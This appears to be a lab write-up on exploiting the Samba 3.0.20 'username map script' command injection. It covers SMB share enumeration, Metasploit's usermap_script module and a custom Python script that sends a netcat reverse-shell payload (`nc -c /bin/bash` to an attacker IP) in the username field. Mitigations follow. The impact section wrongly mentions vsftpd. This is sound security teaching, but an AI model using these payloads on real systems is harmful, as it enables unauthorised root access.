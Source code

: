 # smbd 3.X - 4.X

## Introduction

- The samba daemon provides the Active Directory services and file and print services to SMB clients. The smbd daemon provides the file and print services to SMB clients.
- Port 139: SMB originally ran on top of NetBIOS using port 139. NetBIOS is an older transport layer that allows Windows computers to talk to each other on the same network.
- Port 445: Later versions of SMB (after Windows 2000) began to use port 445 on top of a TCP stack.

## Enumeration

- We can list the shared directories using-
	- `smbclient -L //IP -U%`
		- -L: Lists the shares
		- -U%: Avoid asking for password

![enumeration results](../../images/smbd_3.X-4.X_enum.jpeg)

- As we can see that there are a lot of shared directories here, most of which are generated by the system and is not meant to be accessed ([Read more here](https://learn.microsoft.com/en-us/troubleshoot/windows-server/networking/remove-administrative-shares#introduction))
- But we can access the `tmp` share using:
	- `smbclient //IP/tmp -U%`, syntax of this command is pretty straightforward.
- And now, we can run commands on the server.

![tmp share files](../../images/smbd_3.X-4.X_tmp.jpeg)

- However, this share does not reveal any useful information.

## Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution

- Searching more about the version of smbd, I found that it is vulnerable to `Command Execution` if the username map script option is enabled in `smb.conf` file (smbd configuration file).
	- Samba's username map feature allows the mapping of usernames from client requests to different usernames on the server.This can be particularly useful in environments where users have different usernames on different systems.
	- For example, a user might have one username on a Windows client and a different username on a Unix or Linux server running Samba. The username map feature enables these users to access resources on the Samba server without needing to maintain identical usernames across systems.
	- The username map script option in Samba is used to specify a script that Samba will call to determine the mapping of a username.
	- This option provides a dynamic way to map usernames by running an external script, which can be more flexible than static mappings defined in a username map file.
	- The way this works is that when a user attempts to authenticate, Samba calls the specified script with the username as an argument. The script then returns the mapped username that Samba should use for that session. 
- Samba versions 3.0.20 through 3.0.25rc3 allows a command execution vulnerability when using the non-default `username map script` configuration option. By specifying a `username containing shell meta characters`, attackers can execute arbitrary commands. 
- No authentication is needed to exploit this vulnerability since this option is used to map usernames prior to authentication.

### Proof of Concept

- This vulnerability can be exploited either through Metasploit's `exploit/multi/samba/usermap_script` exploit or a manually crafted script.
- Since this exploit requires using `shell meta characters`, it is difficult (though not impossible) to exploit it manually using tools like `smbclient` through a shell.

- Metasploit Exploitation
	- Start metasploit using:
		- `msfconsole`
	- Using the exploit/multi/samba/usermap_script exploit:
		- `use exploit/multi/samba/usermap_script`
	- Viewing the required options for exploitation:
		- `show options`

	![metasploit options](../../images/smbd_3.X-4.X_metasploit_1.jpeg)

	- The only 2 required options is `RHOSTS` which is the target IP.
		- `set RHOSTS IP_ADDRESS`
	- Run the exploit using:
		- `exploit` or `run`

	![metasploit exploit](../../images/smbd_3.X-4.X_metasploit_2.jpeg)

	- As we can see, we got a shell as root and we are able to run commands.

- Script Exploitation
	- I manually created a [python script](./scripts/exploit.py) to spawn a shell. Here is how it works
		- Reverse Listener: This scripts assumes that the attacker is already listening on the supplied port. For eg. using `nc -lnvp 9001`
    	- Imports: The script uses the smb.SMBConnection for SMB communication and sys for accessing command-line arguments.
    	- Command-Line Arguments: Checks if the target IP and listener port are provided; if not, it prints usage instructions and exits.
    	- Variable Setup: Extracts the listener port and target IP from command-line arguments. 
    	- Payload: ``` `nc -c /bin/bash 192.168.1.6 {port}` ``` Constructs a payload using nc (netcat) to open a reverse shell to the attacker's machine, embedding this payload in the username variable. You can replace this payload with your own if you want. The main thing here to notice is that the payload has to be enclosed within backticks [``].
    	- SMB Connection: Attempts to establish an SMB connection with the target using the crafted username as payload. It uses port 139, commonly associated with SMB services.
    	- Exception Handling: Catches and prints any errors encountered during the attempt to connect.
    	- Cleanup: Closes the SMB connection and prints a success message, indicating the script's completion.
    - Using the exploit script
    	- Listening on port 9001 using on another terminal window
    		- `nc -lnvp 9001`
    	- Running the script
    		- `python3 exploit.py 192.168.1.6 9001`

    	![exploit script](../../images/smbd_3.X-4.X_script.jpeg)

    - As we can see, we got a shell as root and we are able to run commands.

### Impact Analysis

- This vulnerability has Remote Code Execution [RCE] exploit and allows full access of the system as the root user that was used to configure the vsftpd service on the system.
- The attacker can easily pretend to be the original user and modify/harm the system files.
- Therefore, the impact level of this vulnerability is high.

## Patches and Updates:

- The developers of smbd responded to this vulnerability and released newer versions of the software with security patches and fixes.
- All users were advised to update to the latest version as soon as possible to protect their servers from exploitation.

## Mitigations

- Change the default port (139) to a non-standard port to reduce the risk of automated attacks.
- Restrict access to known IP addresses or ranges through firewall rules or smbd configuration.
- Regularly update smbd server software to ensure all security patches are applied.
- Set up services as non-root user in a sandbox or isolated environment.

## Conclusion

- The samba daemon (smbd) provides file and print services to SMB clients, utilizing ports 139 and 445 for communication. Enumeration techniques, such as using smbclient, can reveal shared directories, including a vulnerable tmp share that doesn't require a password for access.
- A significant vulnerability in Samba versions 3.0.20 through 3.0.25rc3 allows for command execution via the username map script option in the smb.conf file. This vulnerability, which does not require authentication to exploit, can lead to full system access as the root user by injecting shell meta characters into the username.
- Exploitation of this vulnerability can be achieved through tools like Metasploit or manually crafted scripts, allowing attackers to gain a root shell on the affected system. The impact of this vulnerability is high due to the potential for remote code execution and system compromise.
- To mitigate this issue, it's recommended to update to the latest version of smbd, change the default samba port, limit access to known IPs, and regularly apply security patches.

## References

- https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/samba/usermap_script.rb
- https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/multi/samba/usermap_script
- https://www.exploit-db.com/exploits/16320
- https://github.com/v1nc3-source/Samba_3.x_4.x_exploit
